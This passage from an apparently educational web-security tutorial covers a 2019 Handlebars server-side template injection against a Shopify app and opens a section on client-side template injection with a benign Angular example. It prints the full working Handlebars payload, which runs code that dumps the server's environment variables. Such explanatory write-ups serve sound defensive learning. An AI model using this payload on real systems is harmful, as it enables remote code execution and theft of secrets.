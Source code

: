 The second example is the Handlebars SSTI in Shopify reported by Mahmoud Gamal in 2019.

Shopify's merchant backend has a feature that allows merchants to customize the emails sent to users (similar to the example I mentioned earlier). They can use syntax like `{{order.number}}` to customize the content. The backend uses Node.js with Handlebars as the template engine.

Because Handlebars has some protections and is more complex, hackers spent a lot of time trying to figure out how to attack it. After all, having SSTI is one thing, but not every template engine can be exploited for RCE.

The final payload they came up with was very long:

``` js
{{#with this as |obj|}}
    {{#with (obj.constructor.keys "1") as |arr|}}
        {{#with obj.constructor.name as |str|}}
            {{#blockHelperMissing str.toString}}
              {{#with (arr.constructor (str.toString.bind "return JSON.stringify(process.env);"))}}
                  {{#with (obj.constructor.getOwnPropertyDescriptor this 0)}}
                      {{#with (obj.constructor.defineProperty obj.constructor.prototype "toString" this)}}
                          {{#with (obj.constructor.constructor "test")}}
                            {{this}}
                          {{/with}}
                      {{/with}}
                  {{/with}}
              {{/with}}
            {{/blockHelperMissing}}
        {{/with}}
  {{/with}}
{{/with}}
```

Details can be found in the original article by the author: [Handlebars template injection and RCE in a Shopify app](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

## Client Side Template Injection

Understanding CSTI becomes easier after understanding SSTI, as the principles are similar, with the only difference being that this template is a frontend template.

Wait, there are templates in the frontend too? Of course!

For example, Angular is one. Here's an example from the Angular [official website](https://angular.io/quick-start):

``` js
// import required packages
import 'zone.js';
import { Component } from '@angular/core';
import { bootstrapApplication } from '@angular/platform-browser';

// describe component
@Component({
  selector: 'add-one-button', // component name used in markup
  standalone: true, // component is self-contained
  template: // the component's markup
  `
   <button (click)="count = count + 1">Add one</button> {{ count }}
  `,
})

// export component
export class AddOneButtonComponent {
  count = 0;
}

```